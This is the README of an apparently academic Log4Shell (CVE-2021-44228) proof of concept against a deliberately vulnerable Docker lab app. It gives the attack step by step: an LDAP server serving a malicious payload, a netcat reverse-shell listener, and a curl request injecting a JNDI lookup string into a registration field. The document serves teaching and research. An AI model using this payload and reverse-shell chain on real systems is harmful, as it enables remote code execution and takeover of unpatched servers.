


# Log4Shell PoC (CVE-2021-44228)


## Description

For my course in Cybersecurity and National Defense at Politecnico di Torino (3rd year Bachelor in Computer Engineering), I had to pick a cybersecurity topic to research. I chose Log4Shell. This repository aims to demonstrate how to exploit this vulnerability and the associated risks. More information and an in-depth description are available in the provided presentation file.

### What is Log4Shell?

Log4Shell is a **Remote Code Execution (RCE)** vulnerability that allows an attacker to execute arbitrary code on a vulnerable server through JNDI (Java Naming and Directory Interface) strings injected into logs.

**Severity**: 10.0/10 (CVSS)


## Proof of Concept

### Step 1: Start the Vulnerable Application

```bash
docker compose up -d --build
```

**Screenshot**: Web application running in browser at `http://localhost:8080`




### Step 2: Start LDAP Server to Serve Malicious Payload

```bash
python3 exploit/ldap_server.py
```

**Screenshot**: LDAP server running and listening




### Step 3: Start Netcat Listener

Open a new terminal and start a listener to catch the reverse shell:

```bash
nc -lvnp 4444
```

### Step 4: Send Exploit Request

```bash
curl -X POST http://localhost:8080/register \
  -H "Content-Type: application/json" \
  -d '{"username":"${jndi:ldap://host.docker.internal:1389/Exploit}","email":"notanemail","password":"test123"}'
```

### Step 5: Get Your Shell

You should now have a reverse shell connection in your netcat listener!

**Demo Video**: Complete exploitation demonstration


## Cleanup

To stop and remove all containers:

```bash
docker-compose down

# To also remove volumes:
docker-compose down -v

# To also remove images:
docker-compose down --rmi all
```

## SECURITY DISCLAIMER

**WARNING: This is a deliberately vulnerable application!**

This Proof of Concept (PoC) demonstrates a critical security vulnerability and should be used responsibly:

- ❌ **DO NOT** deploy this application on production systems
- ❌ **DO NOT** expose this application to the internet
- ❌ **DO NOT** use these techniques on systems you don't own or have explicit permission to test
- ✅ **DO** use only in isolated lab environments
- ✅ **DO** use for educational and research purposes only
- ✅ **DO** obtain proper authorization before security testing

**Legal Notice**: Unauthorized access to computer systems is illegal in most jurisdictions. The authors and contributors of this project are not responsible for any misuse or damage caused by this software. Users are solely responsible for ensuring their use complies with all applicable laws and regulations.

## ⚖️ Legality

This tool is provided for:
- ✅ Academic research
- ✅ Testing on authorized systems
- ✅ Cybersecurity training

**DO NOT use** on systems without explicit authorization. Misuse may violate local and international laws.


**⚠️ Remember**: Always test vulnerabilities in isolated and controlled environments!
